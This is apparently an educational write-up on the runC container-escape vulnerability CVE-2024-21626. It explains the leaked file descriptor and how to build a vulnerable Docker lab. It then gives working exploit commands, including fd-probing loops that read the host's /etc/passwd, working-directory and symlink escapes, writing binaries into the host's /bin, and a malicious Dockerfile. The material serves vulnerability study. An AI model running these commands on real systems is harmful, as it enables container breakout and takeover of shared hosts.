



The content of this article is for educational and research use only. The information provided must not be implemented in a real-world environment, and no responsibility is assumed for any consequences resulting from its application in a real-world scenarios. You are responsible for any risks arising from any behavior not related to the above scope.


---

# 1. Introduction
## 1.1 Why this article?
The scope of this article is to deeply understand how **CVE-2024–21626** vulnerability works and how to setup a virtual environment to play with it. When i started to deeply understand how the vulnerability works and how it was possible to reproduce it i did not find any public information. Hence, here you are a practice article to understand well how to set up a virtual environment to use and play with the CVE-2024–21626.
## 1.2 What is CVE-2024–21626 and how it works
CVE-2024–21626 refers to a vulnerability in the ***runC*** component. This vulnerability puts system integrity and data security at serious risk by enabling attackers to access the host operating system without authorization from inside a container.

This vulnerability arises from an **internal file descriptor** leak, specifically when the ***process.cwd**** - which returns the current working directory - is manipulated to access the host's filesystem namespace. The manipulation of ***process.cwd*** to an unauthorized directory on the host, essentially grants the **malicious container binary unrestricted access to the host filesystem through and subsequent path traversal**. This access enables a wide range of malicious activities, from data theft to further system compromise.

##### What is runC?
runC is a CLI tool for spawning and running containers on Linux (according to the OCI specification). In ***runC*** $≤$ *1.1.11* versions, due to an internal file descriptor leak, an attacker could cause a newly-spawned container process to have a **working directory in the host filesystem namespace**, allowing for a container escape by giving access to the host filesystem. Variants attack could be also be used to overwrite **semi-arbitrary host binaries**, allowing for **complete container escapes**.

##### What role does runC play in docker?
***Containerd, runc, containerd-shim-runc-v2***, and ***dockerd*** have the following calling relationship when a container is run using the <code>docker run</code> command.



##### What happens in runc run command?

<br>
At the end of the `docker run` calls chain **runc** is called. In the vulnerable version of `runc run` opens `/sys/fs/cgroup` in host filesystem, and subsequent operations to cgroup files are based on `openat2(2)` system call and the file descriptor of `/sys/fs/cgroup`. The problem is that ***runC*** does not close the file descriptor of `/sys/fs/cgroup` when forking child processes, so that child processes can access host filesystem through `/proc/self/fd/<fdnum>`.

##### A step back to understand vulnerability: Golang vs Linux
When we create a child process using `fork(2)` in Linux, the child process **inherits all the open file descriptors** from its parent. However, when we execute a new program using `execve(2)`, the Linux kernel closes file descriptors that have the **`O_CLOEXEC`** flag set. **But the remaining opened file descriptors are still accessible to the newly loaded program.**

In Golang, the design aims to prevent child processes from automatically inheriting all file descriptors. Instead, developers must explicitly pass the file descriptors they want to be inherited. The Golang runtime sets the **`O_CLOEXEC`** flag for each file descriptor. When a new program is executed using execve(2), the remaining open file descriptors are still accessible to the newly loaded program.

The problem arises when the file descriptors are created by raw syscalls (in this case the openat2(2)) that are not flagged as O_CLOEXEC by default. In this case file descriptors can be inherited by child processes. For more details, you can explore the [Golang source code](https://github.com/golang/go/blob/26b5783b72376acd0386f78295e678b9a6bff30e/src/syscall/exec_linux.go#L554-L597).

##### Why runC does not close the opened file descriptor?
|                        |                 |
| ---------------------- | ---------------------- |
|  |  |

<br>

As we can see in the runc source code, in the [vulnerable version](https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/libcontainer/cgroups/file.go#L127) (left image) when `openat2(2)` is called in the `prepareOpenat2()` function the flag `O_CLOEXEC` is not passed. In the [fix commit](https://github.com/opencontainers/runc/commit/89c93ddf289437d5c8558b37047c54af6a0edb48) (right image) they added the flag. Runc added also other checks to prevent internal file descriptor leak, see here to further details ([8e1cd2](https://github.com/opencontainers/runc/commit/8e1cd2f56d518f8d6292b8bb39f0d0932e4b6c2a), [f2f162](https://github.com/opencontainers/runc/commit/f2f16213e174fb63e931fe0546bbbad1d9bbed6f), [ee7309](https://github.com/opencontainers/runc/commit/ee73091a8d28692fa4868bac81aa40a0b05f9780)).


## 1.3 Implications
The implications of this vulnerability are significant. A container could be able to communicate with the host's file system and outside its designated boundaries thanks to it. By reading, editing, or deleting system files, an attacker may be able to get elevated privileges or carry out additional host system exploitation. The range of affected versions are:
- v1.0.0-rc93 $≤$ **runC** $≤$ 1.1.11
- 1.4.7 $≤$ **containerd** $≤$ 1.6.27 and 1.7.0 $≤$ **containerd** $≤$ 1.7.12.
- **Docker** $<$ 25.0.2
- **Linux kernel** $≥$ 5.6 (The `openat2` syscall was introduced in the [Linux kernel version 5.6](https://www.man7.org/linux/man-pages/man2/openat2.2.html#HISTORY). Check if the system call is present or try in any case if the vulnerability is present).
  
# 2. Setup environment
## 2.1 How to setup virtual environment to play with
##### A. Download and install [22.04.1-Ubuntu LTS version](https://ubuntu.com/download/desktop/thank-you?version=22.04.4&architecture=amd64) 
During the installation do not check the box to download update system.
##### B. Install guest additions CD image to easily work with the virtual machine
- insert Guest additions CD image
- open terminal in the mounted CD image
- run the VBoxLinuxAdditions.run script
  
```bash
demo@demo-pc:/media/demo/VBox_GAs_7.0.14$ sudo ./VBoxLinuxAdditions.run
```

##### C. Install the vulnerable docker version and related components
Set up Docker's apt repository
```bash
###### set up Docker's apt repository: add Docker's official GPG key:
sudo apt update
sudo apt install ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

###### add the repository to Apt sources:
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/ubuntu \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt update
```
<br>

Find and install the right version of the different components (*docker-ce, docker-ce-cli, containerd.io, docker-buildx-plugin*).
<br>

```bash
# search in the cache reposiroty the docker-ce available packages
apt-cache madison docker-ce | awk '{ print $3 }'
# setup the chosen version
VERSION_STRING=5:24.0.6-1~ubuntu.22.04~jammy

# search in the cache reposiroty the containerd.io and docker-buildx-plugin available packages
apt-cache madison containerd.io | awk '{ print $3 }'
apt-cache madison docker-buildx-plugin | awk '{ print $3 }'docker-buildx-plugin

# install the packages
sudo apt install docker-ce=$VERSION_STRING \
     docker-ce-cli=$VERSION_STRING \
     containerd.io=1.6.4-1 \
     docker-buildx-plugin=0.10.2-1~ubuntu.22.04~jammy
```
<br>

If the packages are too old to find (see also the old repository online), or if you can't use Docker's `apt` repository to install Docker Engine, you can download the `deb` file for your release and install it manually.
Go to https://download.docker.com/linux/ubuntu/dists/ or use the deb files inside the [my GitHub repository](https://github.com/Sk3pper/CVE-2024-21626) and install them.

```bash
# clone CVE-2024-21626 repository
git clone git@github.com:Sk3pper/CVE-2024-21626.git

# install deb files
cd CVE-2024-21626/deb
sudo dpkg -i ./containerd.io_1.6.4-1_amd64.deb \
  ./docker-ce_24.0.6-1~ubuntu.22.04~jammy_amd64.deb \
  ./docker-ce-cli_24.0.6-1~ubuntu.22.04~jammy_amd64.deb \
  ./docker-buildx-plugin_0.10.2-1~ubuntu.22.04~jammy_amd64.deb
```

##### D. Check the installed versions
```bash
sudo docker version
    Client: Docker Engine - Community
    Version:           24.0.6
    API version:       1.43
    Go version:        go1.20.7
    Git commit:        ed223bc
    Built:             Mon Sep  4 12:31:44 2023
    OS/Arch:           linux/amd64
    Context:           default

    Server: Docker Engine - Community
    Engine:
    Version:          24.0.6
    API version:      1.43 (minimum version 1.12)
    Go version:       go1.20.7
    Git commit:       1a79695
    Built:            Mon Sep  4 12:31:44 2023
    OS/Arch:          linux/amd64
    Experimental:     false
    containerd:
    Version:          1.6.4
    GitCommit:        212e8b6fa2f44b9c21b2798135fc6fb7c53efc16
    runc:
    Version:          1.1.1
    GitCommit:        v1.1.1-0-g52de29d
    docker-init:
    Version:          0.19.0
    GitCommit:        de40ad0
```
<br>

```bash
runc --version
    runc version 1.1.1
    commit: v1.1.1-0-g52de29d
    spec: 1.0.2-dev
    go: go1.17.9
    libseccomp: 2.5.3
```
<br>

```bash
containerd --version
    containerd containerd.io 1.6.4 212e8b6fa2f44b9c21b2798135fc6fb7c53efc16
```
<br>

```bash
uname -r
    6.5.0-21-generic
```

##### E. Check if the kernel is vulnerable
To work properly the vulnerability needs the presence of `openat2` syscall. Manually checking with the following command:

```bash
grep openat2 /proc/kallsyms 

    0000000000000000 T __pfx___audit_openat2_how
    0000000000000000 T __audit_openat2_how
    0000000000000000 t __pfx_do_sys_openat2
    0000000000000000 t do_sys_openat2
    0000000000000000 t __pfx___do_sys_openat2
    0000000000000000 t __do_sys_openat2
    0000000000000000 T __pfx___x64_sys_openat2
    0000000000000000 T __x64_sys_openat2
    0000000000000000 T __pfx___ia32_sys_openat2
    0000000000000000 T __ia32_sys_openat2
    0000000000000000 T __pfx_io_openat2_prep
    0000000000000000 T io_openat2_prep
    0000000000000000 T __pfx_io_openat2
    0000000000000000 T io_openat2
    0000000000000000 d event_exit__openat2
    0000000000000000 d event_enter__openat2
    0000000000000000 d __syscall_meta__openat2
    0000000000000000 d args__openat2
    0000000000000000 d types__openat2
    0000000000000000 d __event_exit__openat2
    0000000000000000 d __event_enter__openat2
    0000000000000000 d __p_syscall_meta__openat2
    0000000000000000 d _eil_addr___ia32_sys_openat2
    0000000000000000 d _eil_addr___x64_sys_openat2
```

There could be cases where it is necessary to check with the following golang script available in [my GitHub repository](https://github.com/Sk3pper/CVE-2024-21626) if the `openat2` syscall is present.

```go
package main

import (
 "fmt"

 "golang.org/x/sys/unix"
)

func main() {
 // Define the arguments for unix.Openat2.
 // As we are only checking for the presence of the syscall, the arguments can be dummy values.
 path := ""
 how := &unix.OpenHow{}

 // Attempt to call unix.Openat2.
 _, err := unix.Openat2(-1, path, how)

 // Check if the error is due to the syscall not being present.
 if err == unix.ENOSYS {
  fmt.Println("The unix.Openat2 syscall is not present on this system.")
 } else {
  // If the error is not ENOSYS, the syscall is present (other errors may still occur).
  fmt.Println("The unix.Openat2 syscall is present on this system.")
 }
}
```

The binary found was build with the following flags
```bash
env GOOS=linux GOARCH=amd64 go build testOpenat2.go
```
<br>

```bash
# clone CVE-2024-21626 repository
git clone git@github.com:Sk3pper/CVE-2024-21626.git

# run testOpenat2
cd testOpenat2
./testOpenat2
The unix.Openat2 syscall is present on this system.
```

# 3. Real attacks scenarios
We have now reached the practical section of this post so let's go with the technical part. To better understand each attacks vectors I wanted to implement a real scenario where it is possible to exploit all the four different attacks written in the [runc security advisory](https://github.com/advisories/GHSA-xr7r-f8xq-vfvv) plus other possibility variants.

## 3.1 Find the right fd
The first thing to do is to find the right fd. Depend on the system on which are you running it is necessary to find the right ***fd opened***. To do that use the following [script](https://github.com/Sk3pper/CVE-2024-21626) `checkVulnerability.sh`

```bash
# clone CVE-2024-21626 repository
git clone git@github.com:Sk3pper/CVE-2024-21626.git

# run checkVulnerability.sh
chmod +x checkVulnerability.sh
./checkVulnerability.sh
```
<br>
Or run the following lines of code

```bash
for i in {4..20}; do
  sudo docker run -it --rm -w /proc/self/fd/$i debian:bookworm /bin/sh -c "tail /proc/self/cwd/../../../etc/passwd"
  echo ""
done
```
<br>

<br>
If in the terminal we see the printed tailed `/etc/passwd` file indicates the the runc version and the underlying system is vulnerable. In this example the right fd is the **8**.

## 3.2 Attack 1: process.cwd "mis-configuration"
> In runc 1.1.11 and earlier, several file descriptors were inadvertently leaked internally within runc into `runc init`, including a handle to the host's `/sys/fs/cgroup` (this leak was added in v1.0.0-rc93). If the container was configured to have `process.cwd` set to `/proc/self/fd/7/` (the actual fd can change depending on file opening order in `runc`), the resulting pid1 process will have a working directory in the host mount namespace and thus the spawned process can access the entire host filesystem. This alone is not an exploit against runc, however a malicious image could make any innocuous-looking non-`/` path a symlink to `/proc/self/fd/7/` and thus trick a user into starting a container whose binary has access to the host filesystem. <br><br>
Furthermore, prior to runc 1.1.12, runc also did not verify that the final working directory was inside the container's mount namespace after calling `chdir(2)` (as we have already joined the container namespace, it was incorrectly assumed there would be no way to chdir outside the container after `pivot_root(2)`).<br><br>
The CVSS score for this attack is **8.2 - high severity**.<br><br>
Note that this attack requires a privileged user to be tricked into running a malicious container image. It should be noted that when using higher-level runtimes (such as Docker or Kubernetes), this exploit can be considered critical as it can be done remotely by anyone with the rights to start a container image (and can be exploited from within Dockerfiles using `ONBUILD` in the case of Docker).

Start with the first attack, as explain in the openconatiners runc [GitHub security advisory](https://github.com/advisories/GHSA-xr7r-f8xq-vfvv), once we found the still opened fd by the `prepareOpenat2()` function it is possible to run a container **overriding the default working directory** for an image with the leaked file descriptor `/proc/self/fd/8/`. Thanks to the path traversal technique it is possible to reach the host filesystem.

```bash
# scenario 1: Exploit via Setting Working Directory to /proc/self/fd/
# run container with working directory to /proc/self/fd/8
sudo docker run -w /proc/self/fd/8 \
                --name cve-2024-21626 \
                --rm -it debian:bookworm

root@c4c0a9c99be6:.# ls -f
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
.          sys-kernel-config.mount cgroup.stat   cpuset.cpus.effective   cpuset.mems.effective
..          cgroup.max.descendants misc.capacity   sys-kernel-tracing.mount  cgroup.subtree_control
io.prio.class         cpu.stat   dev-mqueue.mount  init.scope    dev-hugepages.mount
io.pressure         sys-kernel-debug.mount io.cost.model   cgroup.controllers   memory.reclaim
cgroup.procs         memory.pressure  user.slice   io.cost.qos    cgroup.max.depth
misc.current         memory.stat  cgroup.threads   system.slice    cgroup.pressure
sys-fs-fuse-connections.mount  cpu.pressure  memory.numa_stat  proc-sys-fs-binfmt_misc.mount  io.stat

# read host filesystem files
root@c4c0a9c99be6:.# cat ../../../../../../../../../../../etc/hostname
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
demo-pc

# read container filesystem files
root@c4c0a9c99be6:.# cat /etc/hostname
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
c4c0a9c99be6
```
<br>



## 3.3 Attack 2: runc exec container breakout
> (This is a modification of attack 1, constructed to allow for a process inside a container to break out.) <br><br>
The same fd leak and lack of verification of the working directory in attack 1 also apply to `runc exec`. If a malicious process inside the container knows that some administrative process will call `runc exec` with the `--cwd` argument and a given path, in most cases they can replace that path with a symlink to `/proc/self/fd/7/`. Once the container process has executed the container binary, `PR_SET_DUMPABLE` protections no longer apply and the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.<br><br>
`runc exec` defaults to a cwd of `/` (which cannot be replaced with a symlink), so this attack depends on the attacker getting a user (or some administrative process) to use `--cwd` and figuring out what path the target working directory is. Note that if the target working directory is a parent of the program binary being executed, the attacker might be unable to replace the path with a symlink (the `execve` will fail in most cases, unless the host filesystem layout specifically matches the container layout in specific ways and the attacker knows which binary the `runc exec` is executing).<br><br>
The CVSS score for this attack is **7.2 - high severity**.

In the second attack `runc exec` is exploited. In this case the attacker has direct access to a container and it replace a known mounted path to a symlink point the still opened fd.

Once the administrator will call `runc exec` with the `-w` argument to the given path, the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.

```bash
# terminal 1
# run container
demo@demo-pc:~$ sudo docker run --name cve-2024-21626 \
                                --rm -it debian:bookworm
# create symlinks
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /foo
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /bar
```
<br>

```bash
# terminal 2: exec inside the container and set working directory
sudo docker exec -it -w /bar cve-2024-21626 sleep 120
```
<br>

Now the attacker has to find the right $exec_pid. Once found thanks to the path traversal technique it is possible to reach the host filesystem.

```bash
# terminal 1: find actula pid with the right cmdline
root@d98de5a852d7:/# ls -f /proc
.    irq   kmsg   kcore   mdstat   cpuinfo  sysvipc   softirqs  bootconfig  execdomains    sysrq-trigger      15
..   net   misc   locks   mounts   devices  version   zoneinfo  interrupts  filesystems    version_signature
fb   sys   mtrr   swaps   uptime   ioports  consoles  buddyinfo  kpagecount  kpagecgroup    self
fs   tty   scsi   asound  vmstat   loadavg  kallsyms  diskstats  kpageflags  vmallocinfo    thread-self
bus  acpi  stat   crypto  cgroups  meminfo  pressure  key-users  partitions  pagetypeinfo   1
dma  keys  iomem  driver  cmdline  modules  slabinfo  schedstat  timer_list  dynamic_debug  9
    
root@d98de5a852d7:/# cat /proc/9/cmdline 
sleep120

# read host filesystem files
root@d98de5a852d7:/# cat /proc/9/cwd/../../../../../../../../../etc/hostname
demo-pc

# read container filesystem files
root@d98de5a852d7:/# cat /etc/hostname 
d98de5a852d7
```
<br>


## 3.4 Attacks 3a and 3b: process.args host binary overwrite attack
> (These are modifications of attacks 1 and 2, constructed to overwrite a host binary by using `execve` to bring a magic-link reference into the container.) <br><br>
Attacks 1 and 2 can be adapted to overwrite a host binary by using a path like `/proc/self/fd/7/../../../bin/bash` as the `process.args` binary argument, causing a host binary to be executed by a container process. The `/proc/$pid/exe` handle can then be used to overwrite the host binary, as seen in [CVE-2019-5736](https://github.com/advisories/GHSA-gxmr-w5mj-v8hh) (note that the same `#!` trick can be used to avoid detection as an attacker). As the overwritten binary could be something like `/bin/bash`, as soon as a privileged user executes the target binary on the host, the attacker can pivot to gain full access to the host.

##### Attacks 3a
>Attack 3a is attack 1 but adapted to overwrite a host binary, where a malicious image is set up to execute `/proc/self/fd/7/../../../bin/bash` and run a shell script that overwrites `/proc/self/exe`, overwriting the host copy of `/bin/bash`. The CVSS score for this attack is **8.6 - high severity**.

Once obtained the access through the attack 1, it is possible to use the host bash binary and binaries to create new files or overwrites the exists ones that should be launched by the administrator and give further access to the host machine.

```bash
# Attack 3a is attack 1 but adapted to overwrite a host binary

# run container with the working direcotry to /proc/self/fd/8
sudo docker run -w /proc/self/fd/8 \
                --name cve-2024-21626 \
                --rm -it debian:bookworm
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@e5b0730af51d:.# 

# write file in the host container
root@b6873018a7e8:.# cat > ../../../../../../../../bin/cve2024_21626 << EOF
#!/bin/bash
echo "Hello CVE-2024-21626"
EOF

# change chmod
root@b6873018a7e8:.# ../../../../../bin/chmod +x ../../../../bin/cve2024_21626
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory

# check if the file is present in the host
demo@demo-pc:/bin$ ls -la | grep cve
-rwxr-xr-x  1 root root          40 mar  7 13:24 cve2024_21626

# try it in the host
demo@demo-pc:/bin$ sudo ./cve2024_21626 
Hello CVE-2024-21626
```
<br>


##### Attacks 3b
> Attack 3b is attack 2 but adapted to overwrite a host binary, where the malicious container process overwrites all of the possible runc exec target binaries inside the container (such as `/bin/bash`) such that a host target binary is executed and then the container process opens `/proc/$pid/exe` to get access to the host binary and overwrite it. The CVSS score for this attack is **8.2 - high severity**.


Once obtained the access through the attack 2, it is possible to use the host bash binary and binaries to create new files or overwrites the exists ones that should be launched by the administrator and give further access to the host machine.

```bash
# scenario 3b: host binary overwrite attack
# Attack 3b is attack 2 but adapted to overwrite a host binary

# terminal 1
# run container
sudo docker run --name cve-2024-21626 --rm -it debian:bookworm

# create symlinks
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /foo
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /bar

# terminal 2: exec inside the container and set working directory
sudo docker exec -it -w /bar cve-2024-21626 sleep 1000

# terminal 1
# find actula pid with the right cmdline
root@d98de5a852d7:/# ls -f /proc
.    irq   kmsg   kcore   mdstat   cpuinfo  sysvipc   softirqs  bootconfig  execdomains    sysrq-trigger      15
..   net   misc   locks   mounts   devices  version   zoneinfo  interrupts  filesystems    version_signature
fb   sys   mtrr   swaps   uptime   ioports  consoles  buddyinfo  kpagecount  kpagecgroup    self
fs   tty   scsi   asound  vmstat   loadavg  kallsyms  diskstats  kpageflags  vmallocinfo    thread-self
bus  acpi  stat   crypto  cgroups  meminfo  pressure  key-users  partitions  pagetypeinfo   1
dma  keys  iomem  driver  cmdline  modules  slabinfo  schedstat  timer_list  dynamic_debug  9

root@d98de5a852d7:/# cat /proc/9/cmdline 
sleep120

# write file in the host container
root@b6873018a7e8:.# cat > /proc/8/cwd/../../../../bin/cve2024_21626 << EOF
#!/bin/bash
echo "Hello CVE-2024-21626"
EOF

# change chmod
root@b6873018a7e8:.# /proc/8/cwd/../../../../bin/chmod +x \
                     /proc/8/cwd/../../../../bin/cve2024_21626
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory

# check if the file is present in the host
demo@demo-pc:/bin$ ls -la | grep cve
-rwxr-xr-x  1 root root          40 mar  7 13:39 cve2024_21626

# try it in the host
demo@demo-pc:/bin$ sudo ./cve2024_21626 
Hello CVE-2024-21626
```
<br>
The above attacks are only an example. Once obtained the permission to write in the host in root container user, it is possible to substitute any file we want (e.g. inject reverse shell in the `/bin/bash` binary, enable a reverse shell in crontab job, etc).


## 3.5 Attack 4: use malicious image
In this scenario, the attacker can create a malicious image setting the `WORKDIR` with the opened fd. In this way the attacker can access to the host path filesystem and perform malicious actions.

```bash
FROM ubuntu:20.04
RUN apt-get update -y && apt-get install netcat -y
WORKDIR /proc/self/fd/8
```
<br>


# 4. Glossary
> **process.cwd** <br>
The current working directory (CWD) of a running process refers to the directory from which the process was launched or the directory where it is currently executing. It represents the location within the file system where the process is situated. In Linux, the current working directory (CWD) of a running process can be determined by looking at `/proc/pid/cwd`, where pid is the process's Process ID (pid)1. The file `/proc/pid/cwd` will be a symbolic link to the process's current working directory.

> **/proc/self/fd** <br>
`/proc/self/`: directory in Linux, you can find a *symbolic link* to the currently running process. This link allows a process to access information about itself without needing to know its specific process ID (PID). The `/proc/self/` directory provides a way for a process to examine its own details and access information related to its execution without explicitly referencing its PID. This feature simplifies self-referential access within the /proc filesystem, enabling processes to introspect their own attributes and status easily.<br><br>
`/fd/`: Within the `/proc/self/` directory, the `/fd/` subdirectory contains **symbolic links** to **file descriptors** that are currently open in the process. Each file descriptor corresponds to an open file, socket, or other I/O resource. These descriptors allow the process to read from or write to those resources.

# 5. References
### Security Advisory
- https://github.com/advisories/GHSA-gxmr-w5mj-v8hh
- https://www.docker.com/blog/docker-security-advisory-multiple-vulnerabilities-in-runc-buildkit-and-moby/
- https://access.redhat.com/security/vulnerabilities/RHSB-2024-001#technical-summary
- https://aws.amazon.com/security/security-bulletins/AWS-2024-001/
- https://cloud.google.com/anthos/clusters/docs/security-bulletins#gcp-2024-005-gke
- https://nvd.nist.gov/vuln/detail/CVE-2024-21626
- https://ubuntu.com/security/notices/USN-6619-1

### Articles
- https://www.docker.com/blog/docker-security-advisory-multiple-vulnerabilities-in-runc-buildkit-and-moby/
- https://phoenix.security/leaky-vessel-explained/
- https://snyk.io/blog/leaky-vessels-docker-runc-container-breakout-vulnerabilities/

### GitHub repository and technical blog
- https://inthewild.io/vuln/CVE-2024-21626
- https://github.com/NitroCao/CVE-2024-21626
- https://nitroc.org/en/posts/cve-2024-21626-illustrated/#why-runc-decides-to-use-openat22
- https://github.com/zhangguanzhang/CVE-2024-21626
- https://github.com/cdxiaodong/CVE-2024-21626?tab=readme-ov-file
- https://github.com/Wall1e/CVE-2024-21626-POC